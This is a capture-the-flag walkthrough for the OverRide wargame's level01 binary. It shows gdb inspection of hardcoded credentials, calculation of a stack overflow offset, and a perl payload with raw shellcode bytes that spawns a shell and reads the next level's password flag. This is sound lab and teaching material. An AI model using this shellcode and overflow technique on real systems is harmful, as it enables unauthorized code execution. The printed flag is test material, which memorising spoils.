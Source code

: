 # level01

The program reads username and password from stdin and always prints incorrect password.

## Step 1 Find the right username and password
```
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486a8" level01
0x80486a8:	 "dat_wil"
level01@OverRide:~$ gdb -batch -ex "x/s 0x80486b0" level01
0x80486b0:	 "admin"
```
By inspecting the address of string literal, we got the username `dat_wil` and password `admin`.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...
```
The username is correct, but we couldn't login.

## Step 2 Calculate the offset to overwrite `eip`
```
   0x080484d8 <+8>:		sub    esp,0x60
   [...]
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>

bottom of                                                            top of
memory                                                               memory
         esp+0x1c          esp+0x60
<------     [ local variables ][ padding ][ ebp ][ return addr ]
                  64 + 4            8        4          4
top of                                                            bottom of
stack                                                                 stack
```
The username buffer is a global variable, we cannot use it to overwrite eip. According to disassembly, the binary stores password to a buffer which begins at esp+0x1c, so we need `0x60 - 0x1c + 0x8 + 0x4 = 0x50 (80)` to reach the return address.

## Step 3 Find a place to inject shellcode
```
level01@OverRide:~$ objdump -j .bss -d level01
[...]
0804a040 <a_user_name>:
```
`0x0804a040` is the address of global variable `a_user_name` which stores input username, we concatenate [shellcode](http://shell-storm.org/shellcode/files/shellcode-219.php) after the username `dat_wil` then use the address `0x0804a040 + 0x7` to access it.

## Step 4 Build the payload
```
level01@OverRide:~$ perl -e 'print "dat_wil\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80\n" . "A"x80 . pack("V", 0x804a047)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

$ whoami
level02
$ cat /home/users/$(whoami)/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
